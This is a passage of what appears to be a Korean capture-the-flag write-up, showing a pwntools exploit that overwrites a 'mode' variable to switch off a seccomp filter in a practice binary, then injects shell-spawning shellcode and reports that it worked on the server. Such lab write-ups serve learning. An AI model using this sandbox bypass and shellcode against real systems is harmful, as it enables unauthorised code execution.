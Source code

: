 **익스플로잇 코드 (최종)**

```python
from pwn import *

context.arch = 'amd64'
# p = remote()
p = process('./seccomp')
e = ELF('./seccomp')

exit_addr = e.symbols['exit']
mode_addr = e.symbols['mode']

p.sendlineafter('> ', b'3')
p.sendlineafter('addr: ', str(mode_addr))
p.sendlineafter('value: ', '0') 

p.sendlineafter('> ', b'1')
p.recvuntil(b'shellcode: ')

payload = asm(shellcraft.sh())
p.send(payload)

p.sendlineafter('> ', b'2')
p.interactive()
```

이렇게 짜주고 실행을 해보면  

<img width="1432" height="738" alt="image" src="https://github.com/user-attachments/assets/3eef6791-a68c-415b-8870-f503197d9fd7" />

성공했다 ㅎㅎ

<br>

<img width="1429" height="849" alt="image" src="https://github.com/user-attachments/assets/7939e15d-b2bb-49c1-beb6-7f12e941b1ef" />

서버에서도 역시 잘된다.   

2단계 난이도였는데 최단기간으로 풀었다.  
seccomp 파트는 전부 중요하니까 잘 기억해두고 있자.
